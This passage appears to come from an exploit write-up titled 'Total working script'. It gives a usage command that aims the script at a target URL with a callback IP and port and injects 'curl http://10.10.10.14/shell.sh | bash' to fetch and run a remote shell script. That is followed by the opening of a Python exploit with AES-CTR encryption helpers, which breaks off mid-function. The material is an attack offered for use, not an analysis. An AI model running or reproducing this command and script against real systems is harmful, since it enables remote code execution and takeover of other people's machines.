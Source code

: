 ## Total working script

```bash
# Usage 
python3 script.py -t "https://target:80" -i "127.0.0.1" -p "40056" -c "curl http://10.10.10.14/shell.sh | bash"
```

Full script

```python
import os
import json
import hashlib
import binascii
import random
import requests
import argparse
import urllib3
from Crypto.Cipher import AES
from Crypto.Util import Counter
import asyncio

# Disable HTTPS certificate warnings
urllib3.disable_warnings()

# The size of the AES key in bytes
key_bytes = 32

def decrypt(key, iv, ciphertext):
    """
    Decrypt the given ciphertext using AES in CTR mode with the provided key and IV.
    The key is padded with b'0' if its length is less than 32 bytes.
    """
    # If the key is shorter than key_bytes (32 bytes), pad it with b'0'.
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    # The final key length must match key_bytes
    assert len(key) == key_bytes

    # Convert the IV from bytes to a large integer
    iv_int = int(binascii.hexlify(iv), 16)

    # Create a Counter object for CTR mode using the IV integer
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)

    # Create AES-CTR cipher object
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    # Decrypt the ciphertext
    plaintext = aes.decrypt(ciphertext)
    return plaintext


def encrypt(key, iv, plaintext):
    """
    Encrypt the given plaintext using AES in CTR mode with the provided key and IV.
    The key is padded with b'0' if its length is less than 32 bytes.
    """
    # If the key is shorter than key_bytes (32 bytes), pad it with b'0'.
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
```